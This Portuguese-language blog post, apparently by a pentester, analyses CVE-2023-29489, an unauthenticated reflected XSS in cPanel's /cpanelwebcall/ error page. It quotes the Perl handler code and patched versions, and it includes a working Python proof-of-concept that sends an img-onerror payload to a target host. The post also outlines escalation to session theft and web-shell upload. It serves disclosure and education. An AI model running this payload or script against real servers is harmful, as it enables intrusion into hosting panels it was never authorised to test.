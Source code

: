 ```yaml
---
layout: post
title:  "CVE-2023-29489"
date:   2024-05-14
---
```


A CVE-2023-29489[1] trata-se de uma vulnerabilidade de Cross-Site Scripting (XSS)[2] refletido identificada no software de painel de controle de hospedagem cPanel[3], amplamente utilizado na web. A vulnerabilidade XSS permite que um atacante execute scripts maliciosos em uma página que está sendo acessada por outros usuários. O atacante não precisa estar autenticado.

Essa vulnerabilidade foi identificada em 26 de abril de 2023 pela equipe de segurança da Assetnote[4], uma empresa de segurança da Austrália. A vulnerabilidade impacta versões do cPanel anteriores a 11.109.9999.116 e foi corrigida nas versões 11.109.9999.116, 11.108.0.13, 11.106.0.18 e 11.102.0.31 ou em versões posteriores.

---

### Descrição

O cPanel é um software feito em Perl[5] com binários gerados a partir do código Perl. Baseado nos binários que podem ser acessados no diretório **/cgi-sys/** nas portas de gerenciamento, nota-se a existência de binários que eram códigos Perl e que são chamados remotamente por meio de solicitações HTTP.

Além dos binários dentro de **/cgi-sys/**, algumas funcionalidades e aplicativos da web do cPanel são atendidos por meio do binário cpsrvd. O binário cpsrvd é executado por padrão nas portas: 2082, 2083, 2086, 2087. Para isso, o cPanel utiliza as funcionalidades de proxy reverso do Apache[6] e a configuração para isso é encontrada em **/etc/apache2/conf/httpd/conf/**. Essas configurações de proxying e aliasse de scripts definem áreas potencialmente interessantes para ataques:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

O arquivo **Cpanel/Server/Handlers/Httpd.pm** possui uma lógica especifica referente a manipulação de caminhos. Isso permitiu que fossem mapeadas as superfícies de ataques. Dentro do httpd.pm existe um trecho de código que roteia todas as solicitações de um caminho que comece por **/panelwebcall** para uma função chamada **_server_cpanelwebcall** que por sua vez chama outra função, chamada **Chanel::Server::WebCalls::handle** com uma parte da URL como argumento:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


A função **_serve_cpanelwebcall** se parece com isso:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Que nos leva para a função **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

A função handle extrai um ID da solicitação e em seguida modifica a solicitação, removendo o ID. Se o ID não for válido, ele gera um erro indicando a solicitação inválida. Quando o erro acontece, a função **_httpd_invalid_params_err** é chamada, onde essa função cria uma exceção chamada **cpsrvd::BadRequest** que leva até o módulo **Cpanel::Server::Handlers::ErrorPage**. Dentro desse módulo existe uma variável chamada **message_html**. A vulnerabilidade está nessa variável, pois ela não está sanitizando a mensagem de erro ao inserir o ID inválido.

---

### Prova de Conceito

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impacto

O impacto dessa vulnerabilidade permite que um invasor execute códigos JavaScript arbitrários, sem estar autenticado, em quase todas as portas de um servidor web que utiliza o cPanel.  Isso ocorre devido as regras de proxy, onde é possível através das portas 80 e 443 acessar o diretório /cpanel/, pois estará sendo redirecionado para as portas de gerenciamento do cPanel pelo Apache.

O fato das portas de gerenciamento do cPanel serem vulneráveis a XSS permite que um atacante roube a sessão de um usuário legítimo, uma vez agindo como um usuário autenticado, é possível fazer upload de uma web shell[7] e obter a execução remota de comandos no servidor.

A vulnerabilidade apresenta uma ameaça significava a segurança da aplicação e é altamente recomendado que os administradores de sistemas atualizem para a versão mais recente.

--

### Conclusão

A versão cPanel aqui discutida, tem uma superfície vulnerável, onde essa vulnerabilidade permite que o atacante execute scripts maliciosos em páginas acessadas pelos usuários comuns, onde o atacante não precisa estar autenticado para explorá-la. A vulnerabilidade é explorável independente da porta do cPanel (2080, 2082, 2083, 2086) estar exposta externamente ou não.   A exploração dessa vulnerabilidade pode resultar na execução de códigos JavaScript arbitrário em praticamente todas as portas de um servidor web que utilize o cPanel. Isso ocorre devido as regras de proxy que permitem o acesso ao diretório **/cpanel/** mesmo nas portas 80 e 443, redirecionando as solicitações para as portas de gerenciamento do cPanel devido os proxys do Apache.

A vulnerabilidade foi corrigida com patches disponíveis nas versões posteriores ao cPanel 11.109.9999.116. É fundamental que os administradores de sistemas atualizem seus sistemas para a versão mais recente do cPanel e implementem as correções disponíveis para mitigar as ameaças.

- Este artigo foi escrito por Lucas Katashi, atualmente trabalha como pentester e é apaixonado por Red-Team, gosta de codificar ferramentas e o Burp Suite é seu melhor amigo.

---

### Referências

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
